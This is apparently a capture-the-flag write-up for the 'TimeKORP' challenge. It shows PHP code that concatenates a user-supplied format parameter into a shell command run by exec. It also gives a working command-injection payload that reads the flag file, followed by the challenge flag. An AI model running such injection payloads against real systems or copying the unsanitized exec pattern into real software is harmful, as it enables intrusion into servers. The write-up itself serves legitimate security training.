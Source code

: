 # TimeKORP - Very Easy

In this challenge, participants are provided with a website and the PHP source code.

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/a7a3215c-4400-4ea0-95ab-70af31e9a1b1)


## Solution

There is a Command Injection in `exec` function within this code:

> /challenge/models/TimeModel.php
> ```php
> <?php
> class TimeModel
> {
>    public function __construct($format)
>    {
>        $this->command = "date '+" . $format . "' 2>&1";
>    }
>
>    public function getTime()
>    {
>        $time = exec($this->command);
>        $res  = isset($time) ? $time : '?';
>        return $res;
>    }
>}
>```

The `$format` is a input that we can control in `format` GET parameter

> /challenge/controllers/TimeController.php
> ```php
> <?php
> class TimeController
> {
>     public function index($router)
>     {
>         $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
>         $time = new TimeModel($format);
>         return $router->view('index', ['time' => $time->getTime()]);
>     }
> }
> ```

Using this payload to pipe the `date` command and inject our command to read the flag file.


```
+%H:%M:%S'|cat '/flag
```

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/221f581f-484d-48e7-8c11-78c5f6293238)




## Flag
HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}
